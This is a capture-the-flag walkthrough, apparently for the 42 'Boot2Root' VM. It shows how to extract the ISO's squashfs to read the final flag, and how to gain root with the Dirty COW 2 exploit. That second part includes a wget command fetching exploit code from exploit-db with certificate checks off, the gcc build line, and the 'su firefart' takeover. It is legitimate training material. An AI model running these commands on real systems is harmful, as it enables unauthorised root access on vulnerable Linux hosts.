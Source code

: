 ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
```

## Unsquash

![Squash](https://s3.amazonaws.com/finecooking.s3.tauntonclud.com/app/uploads/2017/04/24170702/ING-butternut-squash-thumb1x1.jpg)

In order to better understand the file structure we can explore the ISO file by simply opening it.

If you have a ssh acces to the server (like lmezard or laurie), you can explore the subfolders.


In /cdrom/casper/ we find a .squashfs file corresponding to the compressed system.
It is possible to uncompress it from /tmp in order to explore it:

```Unsquashfs -f -d new_system /cdrom/casper/filesystem.squashfs```

even though we have to abort the command, it copies enough for us to ***read the whole system and find the final flag***:

![congrats_squash](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats_squash.png)



-----------------------------------------------------------------------------------------


## Privilege escalation

Now that we can connect as a low level user, we can attempt to use existing exploits that will grant us root access. These exploit are possible for certain versions of the kernel/OS/Architecture/distribution/Package_list running the server.

We can write download and execute external scripts in /tmp 

We used an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) in order to recommend exploits from [www.exploit-db.com](https://www.exploit-db.com/) 

One exploit named dirtycow 2 fits perfectly to the VM's specs

- How
  - The In The Wild exploit relied on writing to /proc/self/mem on one side of the race.
  - ptrace(PTRACE_POKEDATA) can write to readonly mappings.
  - The attack relies on racing the madvise(MADV_DONTNEED) system call while having the page of the executable mmapped in memory.

Let's fetch it from within the ssh access ```wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c```

Don't forget to chmod 755 and to compile with ```gcc -pthread dirty.c -o dirty -lcrypt```

Then just run it and provide a new password when prompted and ```su firefart```.

![Congrats](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats.png)

***Congratulations! we just supplanted the root user*** 





  

